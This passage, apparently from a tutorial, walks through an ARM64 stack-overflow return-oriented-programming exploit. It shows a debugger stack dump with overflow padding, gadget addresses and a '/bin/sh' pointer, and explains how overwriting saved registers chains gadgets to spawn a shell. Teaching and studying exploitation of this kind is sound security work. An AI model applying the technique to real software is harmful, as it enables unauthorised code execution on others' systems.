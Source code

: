 Make sense?  If so, skip this part.

Walkthrough.

Start by setting a breakpoint at `*vulnerable+84`:

```
0x0000ffffe27d9ad0│+0x0000: 0x0000ffffe27d9b60  →  0x4242424242424242	 ← $x29, $sp
0x0000ffffe27d9ad8│+0x0008: 0x00000000004006d8  →  <main+40> mov w0,  #0x0
0x0000ffffe27d9ae0│+0x0010: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x0000ffffe27d9ae8│+0x0018: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x0000ffffe27d9af0│+0x0020: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x0000ffffe27d9af8│+0x0028: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x0000ffffe27d9b00│+0x0030: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x0000ffffe27d9b08│+0x0038: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x0000ffffe27d9b10│+0x0040: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x0000ffffe27d9b18│+0x0048: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x0000ffffe27d9b20│+0x0050: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x0000ffffe27d9b28│+0x0058: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x0000ffffe27d9b30│+0x0060: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABB[...]"
0x0000ffffe27d9b38│+0x0068: 0x4141414141414141
0x0000ffffe27d9b40│+0x0070: 0x4141414141414141
0x0000ffffe27d9b48│+0x0078: 0x4141414141414141
0x0000ffffe27d9b50│+0x0080: 0x4141414141414141
0x0000ffffe27d9b58│+0x0088: 0x4141414141414141
0x0000ffffe27d9b60│+0x0090: 0x4242424242424242
0x0000ffffe27d9b68│+0x0098: 0x0000ffff9eac5cbc  →   ldp x19,  x20,  [sp,  #16]
0x0000ffffe27d9b70│+0x00a0: 0x4343434343434343
0x0000ffffe27d9b78│+0x00a8: 0x4343434343434343
0x0000ffffe27d9b80│+0x00b0: 0x4343434343434343
0x0000ffffe27d9b88│+0x00b8: 0x0000ffff9eae6080  →  <__xpg_basename+120> mov x0,  x19
0x0000ffffe27d9b90│+0x00c0: 0x0000ffff9ebbd9a8  →  0x0068732f6e69622f ("/bin/sh"?)
0x0000ffffe27d9b98│+0x00c8: 0x4444444444444444
0x0000ffffe27d9ba0│+0x00d0: 0x4444444444444444
0x0000ffffe27d9ba8│+0x00d8: 0x0000ffff9eae4818  →  0x17fffe99b4000040 ("@"?)
```

We know from the start of `vulnerable` that the stack was allocated for `144` bytes (see _`ret` doesn't pop_ above), i.e. stack lines 0x0000 - 0x0088 (inclusive) above.  At the top of the stack is `x29`, `x30`, i.e. the preserved frame pointer and return address for `main`, and we cannot change them from here.  However at `0x0090` and `0x0098` are the preserved frame pointer (`x29`) and return address (`x30`) for when `main` _leaves_; these we can overwrite with `BBBBBBB` and our first gadget.

Our first gadget will load into `x19	` and `x20` the pointer to `/bin/sh\0` and some garbage (`CCCCCCCC`) from `sp + 16`, however `sp + 16` is _not_ pointing at `/bin/sh\0`.

We know that the `sp` will be moved down `144` at the end of `vulnerable`, so think of `sp` pointing to `0x0090`, this would be the top of the `main` stack frame.  If we look at the end of main:

```assembly
   0x00000000004006dc <+44>:	ldp	x29, x30, [sp], #32
```

Above will load our `BBBBBBBB` into `x29` and our first gadget address into `x30`, then move the stack down 32 bytes (now `sp` is pointing to line `0x00b0` when the gadget executes.  Now `sp + 16` is pointing to our string.
